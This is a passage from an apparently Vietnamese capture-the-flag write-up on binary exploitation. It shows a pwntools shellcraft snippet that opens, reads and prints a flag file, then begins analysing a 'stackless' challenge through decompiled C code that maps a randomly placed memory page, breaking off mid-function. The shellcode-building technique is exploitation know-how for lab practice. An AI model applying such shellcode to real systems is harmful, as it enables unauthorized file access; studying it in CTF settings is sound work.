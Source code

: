 - vậy ta sẽ setup lại shellcode như sau: 

```python
def read_flag():
    pl = shellcraft.open('./flag-3462d01f8e1bcc0d8318c4ec420dd482a82bd8b650d1e43bfc4671cf9856ee90.txt')
    pl += shellcraft.read(3,"rsp",0x50)
    pl += shellcraft.write(1,"rsp",0x50)
    return pl
```

và ta có flag : 


![flag](/assets/images/flagsc.png)

## stackless (xóa register, brute_force read)

### analys

- ta thấy đầu tiên nó sẽ đọc 1 giá trị ngẫu nhiên từ /dev/urandom và giá trị này được srand() sử dụng làm đối số 


```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE *v4; // rax
  size_t v5; // rax
  unsigned int ptr; // [rsp+4h] [rbp-3Ch] BYREF
  int i; // [rsp+8h] [rbp-38h]
  int v8; // [rsp+Ch] [rbp-34h]
  size_t nbytes; // [rsp+10h] [rbp-30h] BYREF
  void *v10; // [rsp+18h] [rbp-28h]
  FILE *stream; // [rsp+20h] [rbp-20h]
  void *addr; // [rsp+28h] [rbp-18h]
  __int16 v13; // [rsp+35h] [rbp-Bh]
  char v14; // [rsp+37h] [rbp-9h]
  unsigned __int64 v15; // [rsp+38h] [rbp-8h]

  v15 = __readfsqword(0x28u);
  ptr = 0;
  v10 = (void *)-1LL;
  nbytes = 0LL;
  addr = 0LL;
  v8 = 0;
  v13 = 12621;
  v14 = -1;
  setbuf(stdin, 0LL);
  setbuf(_bss_start, 0LL);
  stream = fopen("/dev/urandom", "r");
  if ( stream )
  {
    if ( fread(&ptr, 4uLL, 1uLL, stream) == 1 )
    {
      fclose(stream);
      srand(ptr);
      for ( i = 0; i <= 9 && v10 == (void *)-1LL; ++i )
      {
        addr = (void *)(rand() & 0xFFFFF000);
        addr = (void *)(((__int64)rand() << 32) & 0xFFFF00000000LL | (unsigned __int64)addr);
        v10 = mmap(addr, 0x1000uLL, 3, 50, 0, 0LL);
      }
```